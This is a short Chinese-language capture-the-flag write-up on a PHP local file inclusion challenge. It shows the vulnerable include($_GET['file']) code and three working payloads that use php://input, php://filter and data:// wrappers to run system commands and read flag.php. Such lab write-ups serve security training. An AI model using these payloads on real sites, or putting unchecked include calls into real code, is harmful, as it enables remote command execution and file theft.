 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

分析源码

get传入file

include包含



### 第一种

php://input实现命令执行

GET

```
?file=php://input
```

POST

```
<?php system("ls");?>
```

![image-20250405152950721](./assets/image-20250405152950721.png)



读取flag.php

GET

```
?file=php://input
```

POST

```
<?php system("tac flag.php");?>
```

![image-20250405153022233](./assets/image-20250405153022233.png)





### 第二种

利用php://filter读flag.php

```
?file=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250405153219295](./assets/image-20250405153219295.png)

![image-20250405153236003](./assets/image-20250405153236003.png)





### 第三种

利用data://text/plain实现命令执行

```
?file=data://text/plain,<?php system("tac flag.php");?>
```

![image-20250405153341818](./assets/image-20250405153341818.png)



